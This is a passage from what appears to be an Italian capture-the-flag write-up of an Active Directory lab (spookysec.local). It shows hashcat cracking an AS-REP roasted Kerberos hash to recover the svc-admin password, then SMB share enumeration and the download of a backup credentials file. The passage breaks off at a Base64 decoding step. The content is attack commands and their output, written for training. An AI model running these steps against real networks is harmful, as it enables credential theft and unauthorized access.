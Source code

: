 hashcat -m 18200 hash.txt /home/kali/Documents/Attacktive/passwordlist.txt --show  
$krb5asrep$23$svc\-admin@spookysec.local@SPOOKYSEC.LOCAL:e45af415c0823250b3183d60bee59c73$e18a9194bb65770f4a6595a91aa1cd34d8d3e46b85a14a26b2c0d13b91289815efa858da15925713412a92d97035237685c3465afa0d75b289605d583908878c4c8c6cddba9af165cb618c4ac6cda92bb059ab17f36f0311335bfc980eb8a23dc3e3ca7116adb81676fd0e1d44321  
10781c434ab7658b60ff3803fe7c536dec2b46ac113802d5da48ae9856967e7316f67670a1ef73e84fb714cafe6e03d3fcc2727ef9606b9cede0beec7cbc9dfceb1e04ffe0ba72737f23eeed1fd  
86ab2af795b56ccb1a9964cd63d01d7f4524ed76dc844f264036a29b064b5a3136d4906f87d204edec8c70d3073a59ccf0ae9a5fd410:management2005  
                                                                                                                                                           
┌──(kali㉿kali-guest)-\[~/Documents/Attacktive\]  
└─$ hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt --show                $krb5asrep$23$svc\-admin@spookysec.local@SPOOKYSEC.LOCAL:e45af415c0823250b3183d60bee59c73$e18a9194bb65770f4a6595a91aa1cd34d8d3e46b85a14a26b2c0d13b91289815ef  
a858da15925713412a92d97035237685c3465afa0d75b289605d583908878c4c8c6cddba9af165cb618c4ac6cda92bb059ab17f36f0311335bfc980eb8a23dc3e3ca7116adb81676fd0e1d44321  
10781c434ab7658b60ff3803fe7c536dec2b46ac113802d5da48ae9856967e7316f67670a1ef73e84fb714cafe6e03d3fcc2727ef9606b9cede0beec7cbc9dfceb1e04ffe0ba72737f23eeed1fd  
86ab2af795b56ccb1a9964cd63d01d7f4524ed76dc844f264036a29b064b5a3136d4906f87d204edec8c70d3073a59ccf0ae9a5fd410:management2005

La password dell’utente svc-admin è management2005

SMB enum con password
=====================

Con le credenziali ottenute in precedenza vediamo quali share sono disponibili

smbclient -L \\\\spookysec.local -U svc-admin  
Enter WORKGROUP\\svc-admin's password:    
  
      Sharename       Type      Comment  
      ---------       ----      -------  
      ADMIN$          Disk      Remote Admin  
      backup          Disk        
      C$              Disk      Default share  
      IPC$            IPC       Remote IPC  
      NETLOGON        Disk      Logon server share    
      SYSVOL          Disk      Logon server share    
SMB1 disabled -- no workgroup available

Scarichiamo il contenuto della share backup

smbget -R smb://spookysec.local/backup -U svc-admin                                                                                                1 ⨯  
Password for \[svc-admin\] connecting to //backup/spookysec.local:    
Using workgroup WORKGROUP, user svc-admin  
smb://spookysec.local/backup/backup\_credentials.txt                                                                                                          
Downloaded 48b in 5 seconds

Poi facciamo un decode Base64
